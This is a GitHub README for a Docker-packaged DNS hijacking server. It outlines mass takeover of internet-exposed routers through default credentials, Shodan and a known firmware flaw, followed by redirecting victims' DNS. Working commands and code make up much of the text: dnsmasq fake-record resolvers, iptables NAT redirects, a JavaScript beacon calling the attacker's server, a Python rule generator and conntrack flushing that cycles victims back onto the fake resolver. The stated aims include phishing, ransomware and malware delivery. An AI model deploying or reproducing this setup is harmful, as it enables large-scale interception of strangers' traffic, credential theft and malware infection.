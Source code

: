 [![Maintenance](https://img.shields.io/badge/Maintained-yes-green.svg)]() [![Powered by](https://img.shields.io/badge/ubuntu-v16.04-blue.svg)]() [![Docker](https://img.shields.io/badge/DockerImage-v1.0.1-green.svg)](https://hub.docker.com/repository/docker/benchaliah/poseidondns) [![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)



## Disclaimer

This tutorial is for informational and educational purposes only. I believe that ethical hacking, information security and cyber security should be familiar subjects to anyone using digital information and computers. And I urge anyone who would use this tool to only use it on targets he/she is authorized to access, I hold no responsability in one used it for any unlawful activity.


## About

* This is a tool that can offer a cross-platform (Android, Windows, iOS ... etc) remote and automated penetration, can be used for massive automated social engineering, randomware or more advanced pentests


[DNS hijacking](https://en.wikipedia.org/wiki/DNS_hijacking) is often used for phishing, in order to obtain sensitive information such as credentials for social media and bank accounts, but more advanced exploitation allows for more critical access. Let take the following scenario for instance, if a hacker gain access to the DNS settings in a router, he can in theory then control the entire flow of the target's internet connections, therefore, he can install malwares on the target's devices (smartphone, computer) using social engineering (fake updates, because normal updates done automatically by windows, android or otherwise are almost exlucsivly done via SSL which would require a signed certificate) or some vulnerability in the software already installed on the target's device. However, this process require investing significant time analyzing each target indivually and trying to gain more access.


## Setup

> Must be root

* __Method 1:__

Clone this repo then :
```
$ docker build -t poseidon .
$ docker run -it  --privileged --cap-add=ALL -v /lib/modules:/lib/modules --env myDNSIP="192.168.1.1"  -p 80:80 -p 53:53/udp -p 53:53 benchaliah/poseidondns
```

* __Method 2:__

Pull from docker :
```
$ docker pull benchaliah/poseidondns
$ docker run -it  --privileged --cap-add=ALL -v /lib/modules:/lib/modules --env myDNSIP="192.168.1.1"  -p 80:80 -p 53:53/udp -p 53:53 benchaliah/poseidondns
```

You can test the server using `dig @dockercontainerIP whateverDomain`, or by setting dhcp in a device (router or otherwise) to `dockercontainerIP`
Also you may need to disable your Host OS default resolver (Ex: `systemctl disable systemd-resolved`)

## Approach

One of ways this tool can be used in, is using Nmap to scan massive IP ranges looking for routers that are exposed to WAN, most of them usually still hold the default login (example: user=admin pass=admin) then changing the DNS address in the DHCP settings, this process can be easily automated using a simple Python script and by using http requests or a Browser automation library (example: Selenium/Chromedriver-FirefoxDriver) you can automatically gain access to thousands of routers, there is also [Shodan](http://shodan.io) that can offer huge numbers of active IPs of routers that are exposed and you can even uses more filters to get only routers that uses a specific firmware/version on which you have a way to access even without default credentials (example : Millions of routers around the world uses Rompager/4.07 a firmware that have a critical vulnerability called [Misfortune Cookie](https://github.com/BenChaliah/MIPS-CVE-2014-9222)).
However, setting thousands of routers towards your DNS similtanously raises another question, how much resources would the server require? The server must respond to the millions of requests each minutes withing few miliseconds for each request, so that the targets wouldn't notice a difference in latency in their internet connection, one of the tools known in the cyber security community for DNS hijacking called DNSChef, a tool that is built on python, which makes it very useful in the case of small sample testing but highly unreliable when you test it against much bigger samples giving high failure rate. On the other hand there's dnsmasq which is written in C (making it much much faster with very little resources) and it offers DNS caching, a DHCP server and more. But since it was not intended for DNS Hijacking it's not quite configurable for such use.

However, in this analysis I'll be explain how did I used it and other low level tools to make a server that even with very low specs (Example : Elastic computer hosted on AWS or gCloud 1 vcpu, 1 Gb of memory) can offer for a huge number of targets a very low latency that compares to that of known public DNS such as `8.8.8.8`, or even supersede it depending on the location of the server and the targets.


### Tools
```
 > dnsmasq 2.79 (or later)
 > Apache/2.4.29 (Ubuntu)
 > conntrack v1.4 (or later)
 > iptables v1.6.1 (or later)
 > python2.7
 > screen version 4.06 (or later)
```

## Summary

* Component 1:

You start two (or more depending on the exploitation) instances of dnsmasq and bind them to different ports

```
$ dnsmasq --no-hosts -p 531 --max-cache-ttl=0
$ dnsmasq --no-hosts --address=/#/yourDNSIP  --server=/.youWebsiteDomain.tld/# -p 532 --max-cache-ttl=0
```

the first one in a regular resolver in order to provide the real DNS records, and the second one will always return an `A record` with the IP address of the server you deploy this docker on except for the domain (or domains, by adding `--server=/.domain2/#`) to which you want to force the targets

* Component 2:

We will be adding the some rules to `NAT` table, the idea is to forward connections comming through port 53 (UDP and TCP, but mainly the former) to either of the dnsmasq instances, and the way to do so is by putting the rule in __PREROUTING__ chain specification, first we'll forward all connections towards the DNS that would provide the __fake records__

```
$ iptables -t nat -A PREROUTING -p tcp -m tcp --dport 53 -j REDIRECT --to-port 532
$ iptables -t nat -A PREROUTING -p udp -m udp --dport 53 -j REDIRECT --to-port 532
```

after the target get redirecred to the domain you which or download the software you wants, you need to trigger the process that will add an exception for the associated __REMOTE_ADDR__ in the port forwarding rules. Here's an example using Javascript, implemented in your domain page

```javascript
<script type="text/javascript">
	if (document.visibilityState == "visible") {
		var xhttp = new XMLHttpRequest();
		xhttp.open("GET", "http://myDNSIP/cgi-bin/route", true);
		xhttp.send();
	}
</script>
```

the previous script will trigger the execution of a Python script inside cgi-bin. Now the script does multiple things but all are very lightweight, first create an empty file called __{REMOTE_ADDR}__ inside a folder called __IPS__, for instance, if the request came from `174.123.23.54` their will be a file called `174.123.23.54` inside IPS, then it'll generate a bash script that will be executed and delete itself when finished (by adding this command `rm -f -- "$0"` at the end). the bash contains also multiple iptables rules, which are the exceptions for all the targets that already went through the process:

```python
for i in os.listdir("./ips/") + [os.environ['REMOTE_ADDR']]:
	rules_str += "-A PREROUTING -s %s/32 -p udp -m udp --dport 53 -j REDIRECT --to-ports 531\n"%i

# Then save the exceptions in a file inside a folder
rules_path = "./tmp/script_%d.rules"%rand_name
with open(rules_path, "w") as f:
	f.write(base_query_str.replace("{loop_str}", rules_str))
```

An independant Python script running in a screen must update iptables rules every few miliseconds through 

`cat ./tmp/script_{rand_name}.rules | iptables-restore`

In order to improve efficiency and avoid running the same exceptions multiple times the independ Python script (or any other approach to loop this command) will be running:

`cat $(ls -1t /var/www/cgi-bin/tmp/*.rules | head -1) | iptables-restore`

the first part of the command will read the latest created rules file which will hold the previously generated rules without duplicates then pipe it to `iptables-restore`.



* Component 3:

Let assume you want the targets to get redirected to your website/domain periodically (the period can be constant or variate), this is were `runScreen1.py` comes to play, you also run this script in an independant screen, the script will run:

> rand_int holds the same value as the one in the file /var/www/cgi-bin/rand_ref which can variate or be constant (depending on your exploitation)

`$ cd /var/www/cgi-bin/ips && find * -mmin +{rand_int} -exec  conntrack -D -s {} > /dev/null \; && find * -mmin +{rand_int} -exec rm -f {} \; && cd /root`

Let now disect this command, `find * -mmin +{rand_int} -exec` uses the filesystem to select only the files (here IPs) that where created/modified at least __{rand_int}__ minutes ago, for instance if you want to redirect the targets each hour you just need to put 60 inside `/var/www/cgi-bin/rand_ref` file and this will remove the exception from the port forwarding rules by deleting the IP from `cgi-bin/ips`, by consequence the next rules file generated by `cgi-bin/route` will not be containing an exception rule for this IP. Now `-exec` will pipe the listed IPs fiting the criteria to another command `conntrack`.


* Component 2-3 (__conntrack__):

Connection tracking is a core feature of the Linux kernel's networking stack. It allows the kernel to keep track of all logical network connections or flows, and thereby identify all of the packets which make up each flow so they can be handled consistently together. However, as much as this feature allows for a smooth flow of packets at a very low level, for the purpose of this exploitation it has a small down side that can easily be dealt with (I wouldn't say a down side because connection tracking is essential for a DNS server low latency and efficiency), when ever you update the iptables rules the already established connections will not abide by the new rules which is a big problem in this specific situation, because what we want is for the target to be switched between different dnsmasq instances instantly after a specific trigger (like http request to `cgi-bin/route`).

> `conntrack -D -s`

This command will flush the existing expectations (connection trackers) based on the source address, which by consequence will force the kernel to establish a new connection based on the updated rules. We are running this command in bash generated by `cgi-bin/route` to switch the target between the fake DNS to the real one, and vice versa using `runScreen1.py`



> * I'll soon be adding a video showing how the server works, and a benchmark.
